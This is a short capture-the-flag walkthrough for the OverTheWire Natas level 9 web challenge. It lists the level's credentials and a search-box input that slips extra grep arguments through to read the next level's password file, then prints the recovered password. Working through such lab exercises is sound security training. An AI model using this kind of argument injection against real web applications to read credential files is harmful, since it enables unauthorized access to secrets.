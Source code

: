 # [natas 9](http://natas9.natas.labs.overthewire.org)

    Username: natas9
    Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

Enter the words in textbox and push the search button.

    '.*' /etc/natas_webpass/natas10

The output contains password.

    /etc/natas_webpass/natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

